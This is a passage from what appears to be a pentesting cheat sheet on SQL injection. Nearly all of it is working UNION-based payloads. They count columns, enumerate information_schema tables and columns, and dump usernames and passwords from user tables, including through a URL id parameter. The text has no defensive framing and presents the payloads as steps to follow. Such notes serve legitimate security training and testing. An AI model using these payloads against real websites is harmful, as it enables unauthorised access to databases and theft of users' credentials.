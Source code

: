 ```
searchitem=test' UNION SELECT 1,group_concat(id, ':', name, ':', password),3 from db.users-- -
```

**Another method to finding the number of columns and proceeding further**:

```SQL
' UNION select 1 from information_schema.tables #
' UNION select 1,2 from information_schema.tables #
' UNION select 1,2,3 from information_schema.tables #
```

The one that returns a correct output is the one that indicates the number of columns Proceeding

```SQL
' UNION select 1,table_schema,table_name from information_schema.tables #
```

```SQL
' UNION select 1,table_name,column_name from information_schema.columns #
```

```SQL
' UNION select 1,username,pwd from users #
```

#### SQL Injection in URL Parameters

Say we have the below URL:

```
http://domain.com/profile?id=1
```

First we produce an error with either \['] or \[''] and see how the web app reacts. The next step is to determine the number of columns. An example payload for that is below

```SQL
1 UNION SELECT 1,2,3
```

You need to keep adding numbers untill there is no error back as an output. Once there is no error, your last query dictates the number of columns. Next step is to start crafting your payloads to dumps columns and tables from the database. Make sure to change the URL id to a non-existent value like \[0] in the above case. Example payload to determine the database type assuming we got three columns.

```SQL
0 UNION SELECT 1,2,database()
```

Example payload to display tables

```SQL
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqlihacked'
```

Example payload to display columns of the table \[sqlihacked]

```SQL
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'sqlihacked'
```
